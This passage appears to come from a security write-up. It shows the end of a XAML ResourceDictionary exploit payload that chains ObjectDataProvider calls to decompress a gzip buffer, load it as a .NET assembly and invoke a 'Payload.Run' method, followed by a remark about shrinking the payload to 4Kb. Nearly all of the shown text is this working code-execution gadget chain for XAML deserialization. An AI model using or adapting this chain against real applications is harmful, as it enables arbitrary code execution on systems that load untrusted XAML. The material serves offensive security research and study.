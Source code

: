 ```xml
            <x:Int32>3072</x:Int32>
        </x:Arguments>
    </s:Array>
  
    <!-- var tmp = gzipStream.Read(buf, 0, 3072); -->
    <ObjectDataProvider x:Key="tmp" ObjectInstance="{StaticResource gzipStream}" MethodName="Read">
        <ObjectDataProvider.MethodParameters>
            <StaticResource ResourceKey="buf"></StaticResource>
            <x:Int32>0</x:Int32>
            <x:Int32>3072</x:Int32>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
  
    <!-- Assembly assembly = Assembly.Load(buf); -->
    <ObjectDataProvider x:Key="assembly" ObjectType="{x:Type r:Assembly}" MethodName="Load">
        <ObjectDataProvider.MethodParameters>
            <StaticResource ResourceKey="buf"></StaticResource>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
  
    <!-- Type type = assembly.GetType("MyType"); -->
    <ObjectDataProvider x:Key="type" ObjectInstance="{StaticResource assembly}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>Payload</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
  
    <!-- MethodInfo method = type.GetMethod("Run", BindingFlags.Static | BindingFlags.Public); -->
    <ObjectDataProvider x:Key="method" ObjectInstance="{StaticResource type}" MethodName="GetMethod">
        <ObjectDataProvider.MethodParameters>
            <s:String>Run</s:String>
            <r:BindingFlags>24</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
  
    <!-- method.Invoke(null, new object[] {}); -->
    <ObjectDataProvider x:Key="invoke" ObjectInstance="{StaticResource method}" MethodName="Invoke">
        <ObjectDataProvider.MethodParameters>
            <x:Null></x:Null>
            <x:Array Type="{x:Type s:Object}"></x:Array>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

With the help of Gzip, we were able to reduce the payload even more, from 6Kb to just 4Kb!

## Final thoughts 
